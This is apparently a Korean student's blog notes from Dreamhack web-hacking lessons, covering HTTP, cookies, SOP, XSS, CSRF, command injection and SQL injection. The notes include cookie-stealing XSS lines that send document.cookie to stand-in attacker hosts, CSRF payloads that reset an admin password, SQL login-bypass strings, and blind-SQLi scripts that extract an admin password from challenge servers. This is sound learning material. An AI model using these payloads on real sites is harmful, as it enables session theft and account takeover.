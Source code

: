 ```yaml
---
layout: post
title:  "Web Hacking Study - Dreamhack"
toc: true
---
```


## Introduction
그냥 소개하는 곳이구나.
각오: 부지런하자

## Background: Web
World Wide Web, W3, Web, 웹
웹: HTTP를 이용하여 정보를 공유하는 서비스
HTTP: 웹상에서 서로 통신을 하기 위해 정해둔 일종의 규칙
프론트엔드(Front-end): 이용자의 요청을 받는 부분
백엔드(Back-end): 요청을 처리하는 부분

웹 리소스: 웹에 갖춰진 정보 자산 - 고유의 Uniform Resource Identifier(URL)을 가짐
- Hyper Text markup Language (HTML): 태그와 속성을 통한 구조화된 문서 작성 지원
- Cascading Style Sheets (CSS): 웹 리소스들의 시각화 방법을 기재한 스타일 시트
- JavaScript (JS): 웹 문서의 동작 정의. (Client-Side Script)

## Background: HTTP/HTTPS

클라이언트의 행의 요청: Request / 서버의 행위 응답: Response
프로토콜(Protocol): 규격화된 상호작용에 적용되는 약속

HTTP: 서버와 클라이언트의 데이터 교환을 요쳥과 응답 형식으로 정의한 프로토콜
### HTTP 헤더
각 줄은 CRLF로 구분되며 첫 줄은 시작 줄(Start Line), 나머지 줄은 헤더(Header)라고 부름
헤더의 끝은 빈 줄
### HTTP 바디
헤드의 끝을 나타내는 CRLF 뒤 모든 줄

### HTTP 요청
시작 줄: 메소드, 요청 대상, HTTP 버전으로 구성
- 메소드: 요청 대상에 대해 서버가 수행하길 바라는 동작
예) GET(리소스 가져와), POST(요청 대상에게 데이터 보내)
### HTTP 응답
시작줄: HTTP 버전, 상태 코드, 처리 사유로 구성. 띄어쓰기로 구분
- 상태 코드: 요청에 대한 처리 결과를 세 자릿수로 나타냄 (예: 404)

HTTPS(HTTP over Secure socket layer): TLS를 사용하여 HTTP를 보완한 프로토콜

## Background: Web Browser

웹 브라우저: 뛰어난 이용자 경험을 제공하는 소프트웨어 중 하나
URL은 Scheme, Authority (Userinfo, Host, Port), Path, Query, Fragment로 구성
- scheme: 웹 서버와 어떤 프로토콜로 통신할지
- Host: Authority의 일부. 접속할 웹 서버의 주소에 대한 정보
- Port: Authority의 일부. 접속할 웹 서버의 포트에 대한 정보
- Path: 접근할 웹 서버의 결로로 '/'로 구분
- Query: 웹 서버에 전달하는 파라미터. ? 뒤에 위치
- Fragment: 메인 리소스에 존재하는 서브 리소스를 접근할 때 식별하기 위한 정보. # 뒤에 위치

Domain name: 도메인의 특성을 담은 이름을 정의하여 IP 대신 사용 (예: naver.com)

웹 렌더링(Web rendering): 서버로부터 받은 리소스를 이용자에게 시각화하는 행위

## Tools: browser DevTools
개발자 도구: F12 누르면 나오는 창
요소 검사: 웹 페이지의 원하는 요소에 마우스를 올리면 대상의 정보 출력, 클릭하면 관련된 HTML 코드 하이라이팅
디바이스 툴바: 현재 브라우저의 화면 비율 및 User-Agent를 원하는 값으로 변경 가능
Elements: HTML 코드 읽기
- 코드를 선택한 상태로 단축키 F2를 누르거나 더블클릭하면 수정 가능.
Console: 프론트렌드의 자바스크립트 코드에서 발생한 각종 메세지를 출력, 이용자가 입력한 자바스크립트 코드를 실행해주는 도구
- 윈도우즈 단축키 : Ctrl + Shift + J
Sources: 현재 페이지를 구성하는 웹 리소스 확인 가능, 원하는 JS 디버깅 가능
Network: 서버와 오가는 데이터 확인 가능. 로그를 우클릭하고 Copy로 복사 가능
Application: 쿠키, 캐시, 이미지, 폰트, 스타일시트 등 웹 애플리케이션과 관련된 리소스 조회

## ServerSide: Command Injection
인젝션(Injection): 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
Command Injection: 이용자의 입력을 시스템 명령어로 실행하게 하는 취약점
-> 이용자의 입력을 제대로 검사하지 않으면 임의 명령어가 실행될 수 있음

'' 명령어 치환 - 중복 사용 불가
$() 명령어 치환 - 중복 사용 가능
&& 명령어 연속 실행 - 앞 명령어 에러 발생 X 시 뒷 명령어 실행
|| 명령어 연속 실행 - 앞 명령어 에러 발생 시 뒷 명령어 실행
; 명령어 구분
| 파이프 - 앞 명령어의 결과가 뒷 명령어의 입력으로 들어감

## Background: Cookie & Session
HTTP 프로토콜 특징
- Connectionless: 하나의 요청에 하나의 응답을 한 후 연결 종료
- Stateless: 통신이 끝난 후 상태 정보를 저장하지 않는 것
이러한 특성을 갖는 HTTP에서 상태를 유지하기 위해 쿠키 탄생

쿠키: Key와 Value로 이뤄진 일종의 단위
개개인에게 맞춤형 서비스를 제공하기 위해 클라이언트를 식별할 수 있는 값을 쿠키에 저장해 사용함
-> 서버가 검증 없이 쿠키를 통해 이용자의 인증 정보를 식별하면 악의적인 클라이언트가 쿠키 정보를 변조한 공격에 당할 수 있음

세션(Session): 인증 정보를 서버에 저장하고 해당 데이터에 접근할 수 있는 키(유추할 수 없는 랜덤한 문자열, Session ID)을 만들어 클라이언트에 전달

## Exercise: Cookie
엔드포인트: /
서버는 별다른 검증 없이 이용자 요청에 포함된 쿠키를 신뢰하고, 이용자 인증 정보를 식별하기 때문에 공격자는 쿠키에 타 계정 정보를 삽입해 계정을 탈취할 수 있습니다.

<!--
C:\Users\skanj>python -c "import flask; print('Flask is installed')"
Flask is installed

C:\Users\skanj>import flask
'import'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj>python -c import flask
  File "<string>", line 1
    import
          ^
SyntaxError: invalid syntax

C:\Users\skanj>python -c "import falsk"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'falsk'

C:\Users\skanj>python -c "import flask"

C:\Users\skanj>python app.py
python: can't open file 'C:\\Users\\skanj\\app.py': [Errno 2] No such file or directory

C:\Users\skanj>cd /mnt/c/Users/skanj/OneDrive/바탕\ 화면/coding
지정된 경로를 찾을 수 없습니다.

C:\Users\skanj>cd C:\Users\skanj\OneDrive\바탕 화면\coding

C:\Users\skanj\OneDrive\바탕 화면\coding>python -c "import flask"

C:\Users\skanj\OneDrive\바탕 화면\coding>pyton app.py
'pyton'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj\OneDrive\바탕 화면\coding>python app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.0.5:8000
Press CTRL+C to quit
-->

도대체 저 서버에 어떻게 들어가나 싶었는데 문제에 'VM 접속하기'를 누르면 들어갈 수 있는 서버가 떴다. 진짜 충격!!!

개발자 도구 -> 응용 프로그램 -> 쿠키 -> guest를 admin으로 변조

## Background: Cookie & Session
링크/admin 페이지에서 admin용 코드 복사해서 guest의 코드를 admin 코드로 붙여넣기

## mitigation: Same Origin Policy
SOP(Same Origin Policy), 동일 출처 정책: 가져온 데이터를 악의적인 페이지에서 읽을 수 없도록 하는 브라우저의 보안 매커니즘
이미지나 자바스크립트, CSS 등의 리소스는 SOP에 구애 받지 않고 외부 출처에 대해 접근을 허용한다

Origin(오리진): 브라우저가 가져온 정보의 출처
프로토콜(Protocol, Schema), 포트(Port), 호스트(Host)로 구성 -> 구성 요소가 모두 일치해야 동일한 오리진
동일한 오리진(Same Origin)-구성 요소가 모두 일치 / 다른 오리진(Cross Origin)-하나라도 다름

외부 출처에서 불러온 데이터를 읽으려고 할 때는 오류가 발생해 읽지 못함. 하지만 읽는 것 외에 데이터를 쓰는 것은 문제 없이 동작함.

교차 출처 리소스 공유(Cross Origin Resource Sharing, CORS): HTTP 헤더에 기반하여 Cross Origin 간에 리소스를 공유하는 방법
- 발신측에서 CORS 헤더를 설정해 요청하면, 수신측에서 헤더를 구분해 정해진 규칙에 맞게 데이터를 가져갈 수 있도록 설정

JSON with Padding (JSONP)
JSONP 방식은 <script> 태그로 Cross Origin의 데이터를 불러옴. 하지만 <script> 태그 내에서는 데이터를 자바스크립트의 코드로 인식하기 때문에 Callback 함수를 활용
예시: myCallback({'id':'dreamhack'});

## ClientSide: XSS
클라이언트 사이드 취약점: 웹 페이지의 이용자를 대상으로 공격할 수 있는 취약점
대표적인 공격: Cross Site Scripting(XSS) -  공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있음
이용자가 삽입한 내용을 출력하는 기능에서 발생

발생 형태에 따른 XSS 종류
- Stored XSS: XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
- Refleced XSS: XSS에 사용되는 악성 스크립트가 URL에 삽입디고 서버의 응답에 담겨오는 XSS
- DOM-based XSS: XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
- Universal XSS: 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점. SOP 정책을 우회하는 XSS

### 콘솔에 넣을 수 있는 자바 스크립트 코드들
alert("hello");
alert(document.cookie); // 현재 페이지의 쿠키를 인자로 가진 alert 실행.
document.cookie = "name=test;"; // 쿠키 생성(key: name, value: test)
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie; // new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정
document; // 이용자의 페이지 정보에 접근.
document.write("Hacked By DreamHack !"); // 이용자의 페이지에 데이터를 삽입.
location.href = "http://hacker.dreamhack.io/phishing"; // 이용자의 위치를 변경.
window.open("http://hacker.dreamhack.io/") // 새 창 열기

## Exercise: XSS
취약점: vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기 때문에 XSS가 발생

<!--
flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면, memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있습니다.
<script>location.href = "/memo?memo=" + document.cookie;</script>
<script>location.href = "https://augpkgf.request.dreamhack.games/?memo=" + document.cookie;</script>
-->

## Exercise: XSS-2
셀레늄(Selenium): 웹 애플리케이션 테스팅에 사용되는 파이썬 패키지로, API를 통해 크롬, 사파리 등의 웹 드라이버를 사용할 수 있습니다
get으로 사용자가 입력한 param을 바로 return 하는 형태가 아니라, render_template 함수를 사용하고 있다 -> 이용자가 입력한 값을 페이지에 그대로 출력하지 않는다
var content = document.getElementById('example').innerHTML; // 읽기: 요소의 내부 HTML을 가져옴
document.getElementById('example').innerHTML = 'New Content'; // 쓰기: 요소의 내부 HTML을 변경
취약점: 이용자 입력을 바탕으로 innerHTML을 설정했을 때 XSS 공격에 취약할 수 있음

<!--
/flag 페이지의 param 부분에 입력하면, memo에서 임의 이용자의 쿠키 정보를 확인할 수 있게 됩니다.
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
-->

## 드림핵 아닌 BurpSuite
기능
- Proxy: HTTP, HTTPS 트래픽을 가로채고 조작할 수 있음. 요청 및 응답값 분석과 파라미터값 위/변조 가능
- 스캐너: 자동으로 웹 애플리케이션에서 보안취약점을 탐지하는 기능
- Repeater: 특정 응답값을 보내어 서버의 응답을 확인할 수 있음
- Intruder: 특정 응답값을 보내어, position, payload를 설정하여 무작위 대입을 할 수 있음
- Interceptor: 프록시에서 트래픽을 중단하고 사용자가 요청 및 응답을 수정한 후 전송 가능

## ClientSide: CSRF
CSRF(교차 사이트 요청 위조): 임의 이용자의 권한으로 임의 주소에 HTTP 요청을 보낼 수 있는 취약점
-> 그럴듯한 웹 페이지를 만들어서 이용자의 입력을 유도하고, 이용자가 값을 입력하면 이를 은행이나 주요 포털 사이트 등으로 전송하여 마치 이용자가 동의한 것 같은 요청을 발생시킴

이용자가 공격자가 작성한 악성 스크립트를 실행해야 CSRF 공격이 성공함 -> HTML 또는 Javascript

### HTML
- img 태그
<img scr='https://뭐시기.com/뭐시기.png'>
- form 태그
<form action='https://뭐시기'>
  <input name='뭐시기'>
</form>

### Javascript
- 새 창 띄우기
window.open('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');
- 현재 창 주소 옮기기
location.href = 'http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');

XSS와 CSRF
공통점: 클라이언트 대상 공격, 이용자가 악성 스크립트가 포함된 페이지에 접속하도록 유도해야 함
차이점: 목적. XSS는 세션 및 쿠키 탈취를 목적, CSRF는 이용자가 임의 페이지에 HTTP 요청을 보내는 것을 목적.

## Exercise: CSRF-1
키워드 필터링 적용 -> 필터링 키워드 이외의 꺽쇠 (<, >)를 포함한 다른 키워드와 태그는 사용할 수 있기 때문에 CSRF 공격을 수행할 수 있습니다.
xss_filter = ["frame", "script", "on"]
for _ in xss_filter:
        param = param.replace(_, "*")

공격 방법
로컬호스트에 위치하는 이용자가 /admin/notice_flag 페이지를 방문하도록 해야하기 때문에 아래와 같이 공격 코드를 작성해야 합니다. 이때, userid 파라미터가 admin인지 검사하는 부분이 존재하기 때문에 해당 문자열을 포함해야 합니다.
<img src="/admin/notice_flag?userid=admin" />
공격 코드를 작성했다면, 아래와 같이 flag 페이지에서 공격 코드를 전송합니다. 성공적으로 전송했다면 로컬호스트에서 http://127.0.0.1:8000/vuln?param=<img src="/admin/notice_flag?userid=admin"/>에 접속하게 됩니다.

## Exercise: CSRF-2
필터링 키워드 이외의 꺽쇠 (<, >)를 포함한 다른 키워드와 태그는 사용할 수 있기 때문에 CSRF 공격을 수행할 수 있습니다.

공격 방법
/flag 페이지에서 이용자가 /change_password를 통해 admin의 pw값을 바꾸어야하기 때문에 아래와 같이 공격 코드를 작성해야 합니다.
<img src="/change_password?pw=admin">
이러면 pw가 admin으로 바껴서 로그인하면 플래그 획득 가능

## wargmae; blind-command
https://velog.io/@woo2083/%EC%9B%B9%ED%95%B4%ED%82%B9-blind-command#-apppy

## Background: Relational DBMS
DBMS(Database Management System): 데이터베이스를 관리하는 애플리케이션
Relational(관계형): MySQL, MariaDB, PostgreSQL, SQLite
Non-Relational(비관계형): MongoDB, CoachDB, Redis
관계형은 행과 열의 집합인 테이블 형식으로 데이터를 저장하고, 비고나계형은 테이블 형식이 아닌 키-값 형태로 값을 저장한다.

RDBMS는 행과 열의 집합으로 구성된 테이블의 묶음 형식으로 데이터를 관리하고, 테이블 형식의 데이터를 조작할 수 있는 관계 연산자를 제공함. 최소한의 조건으로 앞의 두 조건을 만족하는 DBMS를 RDBMS라고 부르게 됨. Structured Query Language(SQL) 라는 쿼리 언어를 사용함

SQL은 데이터를 정의하고 질의, 수정 등을 하기 위해 고안된 언어
DDL: 데이터를 정의. 데이터를 저장하기 위한 스키마, 데이터베이스의 생성/수정/삭제 등의 행위 수행
DML: 데이터를 조작. 실제 데이터베이스 내에 존재하는 데이터에 대해 조회/저장/수정/삭제 등의 행위 수행
DCL: 데이터베이스의 접근 권한 등의 설정. 이용자의 권한을 부여하기 위한 GRANT와 권한을 박탈하는 REVOKE가 대표

테이블 생성 쿼리
```
USE Dreamhack;
CREATE TABLE Board(
	idx INT AUTO_INCREMENT,
	boardTitle VARCHAR(100) NOT NULL,
	boardContent VARCHAR(2000) NOT NULL,
	PRIMARY KEY(idx)
);
```
테이블에 데이터 삽입 쿼리
```
INSERT INTO 
  Board(boardTitle, boardContent, createdDate) 
Values(
  'Hello', 
  'World !',
  Now()
);
```
데이터 조회 쿼리
```
SELECT 
  boardTitle, boardContent
FROM
  Board
Where
  idx=1;
```
데이터 변경 쿼리
```
UPDATE Board SET boardContent='DreamHack!' 
  Where idx=1;
```

## ServerSide: SQL injection
인젝션: 이용자가 악의적인 입력값을 주입해 의도하지 않은 행위를 일으키는 것
SQL Injection: DBMS에서 사용하는 질의 구문인 SQL을 삽입하는 공격
```
SELECT * FROM accounts WHERE user_id='admin'
```

Blind SQL Injection: 질의 결과를 이용자가 화면에서 직접 확인하지 못할 때 참/거짓 반환 결과로 데이터를 획득하는 공격 기법 (스무고개 비슷한 방법으로 알아낼 수 있음)
```
# 첫 번째 글자 구하기
SELECT * FROM user_table WHERE uid='admin' and substr(upw,1,1)='a'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and substr(upw,1,1)='b'-- ' and upw=''; # True
# 두 번째 글자 구하기
SELECT * FROM user_table WHERE uid='admin' and substr(upw,2,1)='d'-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and substr(upw,2,1)='e'-- ' and upw=''; # True
```
substr(string, position, length) = 문자열에서 지정한 위치부터 길이까지의 값을 가져옴
Blind SQL Injection은 다른 공격에 비해 많은 시간을 들여야 함 -> 공격을 자동화하는 스크립트를 작성하면 좋음 -> python의 request 모듈
Blind SQL Injection 공격 스크립트
```
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# ascii printables
tc = string.printable
# 사용할 SQL Injection 쿼리
query = '''admin' and substr(upw,{idx},1)='{val}'-- '''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ch).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```

## Exercise: SQL Injection
1. 로그인을 우회하여 풀이하는 방법
2. 비밀번호를 알아내고 올바른 경로로 로그인 하는 방법

### 로그인을 우회하여 풀이하는 방법
SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";

```
/*
ID: admin"--, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식
*/
SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"

/*
ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"

/*
ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"

/*
ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식
*/
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"
```

### 비밀번호를 알아내고 올바른 경로로 로그인 하는 방법
로그인 요청의 폼 구조 파악
개발자 도구의 네트워크 탭 -> preserve log -> userid에 guest, password에 guest입력하고 login 버튼 클릭 -> 메세지 목록에서 /login으로 전송된 post 요청 찾기 -> 하단의 form data 확인
로그인할 때 입력한 useris 값을 userid로, password는 userpassword로 전송됨

비밀번호 길이 구하기
```
#!/usr/bin/python3
import requests
import sys
from urllib.parse import urljoin


class Solver:
    """Solver for simple_SQLi challenge"""
    
    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host1.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")
        
    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> bool:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        resp = requests.post(self._login_url, data=login_data)
        return resp

    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f"\" or {query}-- ", "hi")
        return resp
        
    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low+high) // 2
            if low+1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid
        
    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\")<{{val}})"
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len
        
    def solve(self):
        pw_len = self._find_password_length("admin")
        print(f"Length of admin password is: {pw_len}")
        
        
if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

한 글자씩 비밀번호를 알아내는 코드
```
#!/usr/bin/python3
import requests
import sys
from urllib.parse import urljoin


class Solver:
    """Solver for simple_SQLi challenge"""

    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host1.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")

    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> requests.Response:
        login_data = {"userid": userid, "userpassword": userpassword}
        resp = requests.post(self._login_url, data=login_data)
        return resp

    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f'" or {query}-- ', "hi")
        return resp

    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low + high) // 2
            if low + 1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid

    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f'((SELECT LENGTH(userpassword) WHERE userid="{user}") < {{val}})'
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len

    def _find_password(self, user: str, pw_len: int) -> str:
        pw = ""
        for idx in range(1, pw_len + 1):
            query_tmpl = f'((SELECT SUBSTR(userpassword,{idx},1) WHERE userid="{user}") < CHAR({{val}}))'
            pw += chr(self._sqli_lt_binsearch(query_tmpl, 0x2F, 0x7E))
            print(f"{idx}. {pw}")
        return pw

    def solve(self) -> None:
        # Find the length of admin password
        pw_len = self._find_password_length("admin")
        print(f"Length of the admin password is: {pw_len}")
        # Find the admin password
        print("Finding password:")
        pw = self._find_password("admin", pw_len)
        print(f"Password of the admin is: {pw}")


if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

## Command Injection - Web Server






